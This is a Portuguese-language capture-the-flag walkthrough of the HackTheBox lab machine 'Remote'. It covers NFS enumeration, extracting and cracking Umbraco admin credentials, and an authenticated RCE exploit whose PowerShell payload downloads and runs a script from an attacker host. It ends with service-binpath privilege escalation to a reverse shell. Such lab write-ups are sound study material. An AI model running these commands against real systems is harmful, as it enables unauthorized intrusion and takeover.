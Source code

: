 Remote
========================

    sudo nmap_enum remote.htb | tee nmap_output.txt

    sudo nmap -sU -p 53,161,111,137,139,500,2049 -Pn remote.htb | tee nmap_udp_output.txt
 
![qownnotes-media-mkHoMQ](../../../media/qownnotes-media-mkHoMQ.png)

NFS é o vetor


    showmount -e 10.10.10.180
    
![qownnotes-media-GtjzBF](../../../media/qownnotes-media-GtjzBF.png)
    
    sudo nmap -sS -p 111,2049 --script nfs-showmount,nfs-ls 10.10.10.180
    
 ![qownnotes-media-yRqJwy](../../../media/qownnotes-media-yRqJwy.png)

# Exploitation

    mkdir /tmp/mount
    sudo mount -t nfs 10.10.10.180:/site_backups /tmp/mount

![qownnotes-media-WkyOwe](../../../media/qownnotes-media-WkyOwe.png)


    strings App_Data/Umbraco.sdf | head

![qownnotes-media-YjPiqr](../../../media/qownnotes-media-YjPiqr.png)

 
 As credenciais são:
 
admin@htb.local
baconandcheese

    john --format=raw-sha1 --wordlist=/usr/share/wordlists/rockyou.txt

![qownnotes-media-Ioepkc](../../../media/qownnotes-media-Ioepkc.png)

![qownnotes-media-PsEXEN](../../../media/qownnotes-media-PsEXEN.png)

    searchsploit umbraco

![qownnotes-media-WOnfBI](../../../media/qownnotes-media-WOnfBI.png)


    cp /usr/share/exploitdb/exploits/aspx/webapps/49488.py exploit_temp.py

    python exploit_temp.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -a "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.8/shell.ps1')" -c powershell.exe

![qownnotes-media-zBdzOq](../../../media/qownnotes-media-zBdzOq.png)


# Privilege escalation

### PowerUp

Normalmente eu tenho problemas para importar o module de powershell powerup, então eu uso a seguinte alternativa:

    . ./PowerUp.ps1

caso contrário:

    import-module PowerUp.ps1

    invoke-allchecks
     
![qownnotes-media-jCADRm](../../../media/qownnotes-media-jCADRm.png)

### Weak service permissions

![qownnotes-media-Yhpwrk](../../../media/qownnotes-media-Yhpwrk.png)

    ./accesschk.exe -ucwqv UsoSvc /accepteula
    
    ./accesschk.exe -ucwqv <servicename> /accepteula
    
Com esse comando, verificamos que estamos no grupo NTAUTHORITY/SERVICE
    
    whoami /all

![qownnotes-media-zdSaRr](../../../media/qownnotes-media-zdSaRr.png)

    sc.exe config usosvc binpath="C:\temp\revshell.exe"

![qownnotes-media-QfiKZv](../../../media/qownnotes-media-QfiKZv.png)

    net stop usosvc
    net start usosvc'